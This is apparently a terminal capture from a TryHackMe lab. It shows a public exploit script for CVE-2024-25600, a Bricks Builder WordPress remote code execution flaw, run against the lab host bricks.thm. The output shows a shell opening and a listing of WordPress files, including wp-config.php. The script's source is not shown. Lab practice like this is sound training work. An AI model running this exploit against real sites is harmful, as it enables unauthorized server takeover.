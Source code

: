 ┌──(myenv)─(alvan㉿vbox)-[~/THM/bricks]
└─$ pip install prompt_toolkit                     
Collecting prompt_toolkit
  Downloading prompt_toolkit-3.0.51-py3-none-any.whl.metadata (6.4 kB)
Collecting wcwidth (from prompt_toolkit)
  Downloading wcwidth-0.2.13-py2.py3-none-any.whl.metadata (14 kB)
Downloading prompt_toolkit-3.0.51-py3-none-any.whl (387 kB)
Downloading wcwidth-0.2.13-py2.py3-none-any.whl (34 kB)
Installing collected packages: wcwidth, prompt_toolkit
Successfully installed prompt_toolkit-3.0.51 wcwidth-0.2.13
                                                                                                                                                
┌──(myenv)─(alvan㉿vbox)-[~/THM/bricks]
└─$ python cve-2024-25600.py -u https://bricks.thm/
/home/alvan/THM/bricks/cve-2024-25600.py:20: SyntaxWarning: invalid escape sequence '\ '
  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \\

   _______    ________    ___   ____ ___  __ __       ___   ___________ ____  ____
  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \
 / /    | | / / __/________/ // / / /_/ / // /_________/ //___ \/ __ \/ / / / / / /
/ /___  | |/ / /__/_____/ __// /_/ / __/__  __/_____/ __/____/ / /_/ / /_/ / /_/ /
\____/  |___/_____/    /____/\____/____/ /_/       /____/_____/\____/\____/\____/
    
Coded By: K3ysTr0K3R --> Hello, Friend!

[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm/
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
